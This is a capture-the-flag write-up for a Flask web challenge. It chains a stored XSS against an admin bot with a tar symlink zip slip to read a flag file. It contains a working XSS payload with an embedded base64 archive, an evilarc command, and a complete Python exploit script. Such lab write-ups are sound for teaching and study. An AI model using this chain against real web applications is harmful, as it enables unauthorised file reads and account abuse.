 ## 2022-05-15
***

# Acnologia Portal
### Category: Web

## Description
Bonnie has confirmed the location of the Acnologia spacecraft operated by the Golden Fang mercenary. Before taking over the spaceship, we need to disable its security measures. Ulysses discovered an accessible firmware management portal for the spacecraft. Can you help him get in?

## Initial thoughts
For this challenge, we're given an endpoint to the "Acnologia Firmware Portal", which is just a login screen, as well as a zip file containing the source code. The code looks to be written using the Flask framework.

In `routes.py` we can see all the endpoints available to us. Many of the endpoints are publicly available, but some require you to be logged in, be an administrator, or some combination of the two.

I created an account, and after logging in was given a list of firmware and the ability to report a bug on each.

![[../Files/login.png]]
![[../Files/firmware-list.png]]

Looking at `routes.py` I could see that after posting a firmware report, a function called `visit_report()` is called. This function launches a selenium driver in `bot.py` that visits the report review page using a bot with administrative credentials. This immediately indicates an XXS injection.

```python
# routes.py

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    # highlight-start
    visit_report()
    # highlight-end
    migrate_db()

    return response('Issue reported successfully!')
```

If we look at the Jinja2 template for the review page, we confirm our XXS theory. The `{{ report.issue | safe }}` directive tells Jinja2 not to sanitize the value of `report.issue`. We can control the value of `report.issue` when we submit a report, allowing us to XXS the admin bot.

```python
# review.html

...
    <div class="container" style="margin-top: 20px"> {% for report in reports %} <div class="card">
        <div class="card-header"> Reported by : {{ report.reported_by }}
        </div>
        <div class="card-body">
        <p class="card-title">Module ID : {{ report.module_id }}</p>
          # highlight-start
          <p class="card-text">Issue : {{ report.issue | safe }} </p>
          # highlight-end
          <a href="#" class="btn btn-primary">Reply</a>
          <a href="#" class="btn btn-danger">Delete</a>
        </div>
      </div> {% endfor %} </div>
  </body>
</html>
```

Before crafting an XXS, I needed to know what we want the bot to do. Looking at the Dockerfile we see that `flag.txt` is copied to the root of the Linux instance, and somehow we need to read this file.

## Zip slip
One endpoint of interest is `/firmware/upload`, which requires admin access. It takes a file from a POST request and calls `extract_firmware()`.

```python
# routes.py

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403
```

`extract_firmware()` does the following:
* Copies a tar.gz file to the `/tmp` directory
* Extracts the tar.gz
* Copies the extracted files to a randomly-generated directory in `static/firmware_extract`

This sounds like it would be a zip slip. Something interesting is that tar.gz files allow you to tar existing symlinks and have them maintain their link when untarred on a different system. If we tar a file that is symlinked to `/flag.txt`, we can zip slip this file into the static folder on the challenge instance (which is publically accessible) and then read it from there.

I used a tool called [evilarc](https://github.com/ptoomey3/evilarc) to generate the zip slip tar.gz file with the following command:

```shell
python2 evilarc.py -o unix -d 1 -f zip.tar.gz zip-dir/ -p app/application/static/firmware_extract
```

## The XXS
I took the base64 of this file and crafted an XXS injection to send a POST request using fetch. This will trick the bot into uploading this file.

I used the following XXS injection and submitted this as a firmware report.

```html
<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
</script>
```

Once the bot visits the review page, it will use its admin credentials to upload our tar.gz file to the `/firmware/upload` endpoint. The Flask code will then attempt to un-tar the file, and our zip slip will put the symlink into `/app/application/static/firmware_extract` on the challenge filesystem.

We can then navigate to the endpoint `/static/firmware_extract/symlink` and `flag.txt` will be downloaded onto our computer.

## Final script
I wrote this Python 3 script that does all the steps.

```python
import requests

def main():
    endpoint = "http://127.0.0.1"
    port = "1337"

    requests.post(f"{endpoint}:{port}/api/register", json={"username": "Articuler", "password": "foobar"})
    login = requests.post(f"{endpoint}:{port}/api/login", json={"username": "Articuler", "password": "foobar"})

    cookies = {
        "session": login.cookies["session"],
        "nc_sameSiteCookiestrict": "true",
        "nc_sameSiteCookielax": "true"
    }

    xss = """<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
    </script>"""

    json = {
        "module_id": "test",
        "issue": xss
    }

    r = requests.post(endpoint + ":" + port + "/api/firmware/report", cookies=cookies, json=json)
    print(r.text)

main()
```

## Flag
```
HTB{des3r1aliz3_4ll_th3_th1ngs}
```
***
